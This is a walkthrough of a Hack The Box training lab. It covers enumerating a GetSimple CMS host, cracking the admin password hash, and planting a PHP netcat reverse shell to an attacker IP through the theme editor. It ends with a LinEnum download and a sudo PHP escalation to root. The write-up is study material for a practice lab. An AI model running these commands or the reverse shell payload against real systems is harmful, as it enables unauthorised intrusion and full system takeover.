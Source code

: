 ﻿# Knowledge Check Walktrough
Write up of the Getting Started HTB modules
## Scanning the target
Enumeration/Scanning with `Nmap` - perform a quick scan for open ports followed by a full port scan:

    nmap -sV -sC -p- 10.129.176.153

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   3072 4c:73:a0:25:f5:fe:81:7b:82:2b:36:49:a5:4d:c8:5e (RSA)
    |   256 e1:c0:56:d0:52:04:2f:3c:ac:9a:e7:b1:79:2b:bb:13 (ECDSA)
    |_  256 52:31:47:14:0d:c3:8e:15:73:e3:c4:24:a2:3a:12:77 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    | http-robots.txt: 1 disallowed entry
    |_/admin/
    |_http-title: Welcome to GetSimple! - gettingstarted
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Analysing the web server:

    whatweb 10.129.176.153
    http://10.129.176.153 [200 OK] AddThis, Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.176.153], Script[text/javascript], Title[Welcome to GetSimple! - gettingstarted]

Directory fuzzing:

    ffuf -w directory-list-2.3-small.txt:FUZZ -u http://10.129.176.153:80/FUZZ

http://10.129.176.153/data/
http://10.129.176.153/backups/
http://10.129.176.153/theme/
http://10.129.176.153/plugins/
http://10.129.176.153/admin/

so this web site is working with a cms called "get simple"
lest try to investigate the version of this cms because there is a lot of exploit but we need to find the version

    http://10.129.26.161/data/cache/2a4c6447379fba09620ba05582eb61af.txt
    {"status":"0","latest":"3.3.16","your_version":"3.3.15","message":"You have an old version - please upgrade"}

we found the version here.
lest find exploit related:

     searchsploit getsimple CMS 3.3.15
No result 
but for the latest version there is an exploit :

    GetSimple CMS v3.3.16 - Remote Code Execution (RCE)                                   | php/webapps/51475.py

when we analyse the python code of the exploit, we see this exploit is working for the 3.3.15 versions

```
if version <= "3.3.16":
	print( red + f"[+] the version {version} is vulnrable to CVE-2022-41544")
```

in data/users/admin.xml there is:

    <item><USR>admin</USR><NAME/><PWD>d033e22ae348aeb5660fc2140aec35850c4da997</PWD><EMAIL>admin@gettingstarted.com</EMAIL><HTMLEDITOR>1</HTMLEDITOR><TIMEZONE/><LANG>en_US</LANG>

username = admin
the password seems encrypted in sha1
d033e22ae348aeb5660fc2140aec35850c4da997 
decrypted = admin

we try to connect and we got access to the admin pannel.


there is an api key here:

http://10.129.26.161/data/other/authorization.xml

    <item><apikey><![CDATA[4f399dc72ff8e619e327800f851e9986]]></apikey></item>

usefull if we use the exploit or we cant decrypt the password but for the moment we continue manualy

in the theme editor menue we can edit php theme files 
http://10.129.26.161/admin/theme-edit.php
so we can inject a reverse shell php code like this:

    <?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.176 9443 >/tmp/f"); ?>

and click on save 

start an netcat listener on port 9443

    nc -lvnp 9443
    listening on [any] 9443 ...

activate the reverse shell code 

     curl http://10.129.26.161:80/theme/Innovation/template.php

connected:

    connect to [10.10.14.176] from (UNKNOWN) [10.129.26.161] 42302
    /bin/sh: 0: can't access tty; job control turned off
    $
    $ cd home
    $ ls
    mrb3n
    $ cd mrb3n
    $ ls
    user.txt
    $ cat user.txt
    7002d65b149b0a4d19132a66feed21d8


## Privelege escalation 
We need the root flag 

transfer LinEnum.sh on the target machine with python http server:

    sudo python3 -m http.server 8080

download file on the target machine:

    
    wget http://10.10.14.176:8080/LinEnum.sh
    chmod +x ./LinEnum.sh
    ./LinEnum.sh
 

LinEnum.sh Result:

    [+] Possible sudo pwnage! /usr/bin/php

https://gtfobins.github.io/ 
GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.

We are allowed to lunch php with sudo right so i start a shell using php and sudo right to be root:

    CMD="/bin/sh"
    sudo php -r "system('$CMD');"
    whoami
    root
    cd /root
    ls
    root.txt
    snap
    cat root.txt
    f1fba6e9f71efb2630e6e34da6387842

We found all the flag it's the end.
Thanks for reading
Have a great day, never stop learning. 
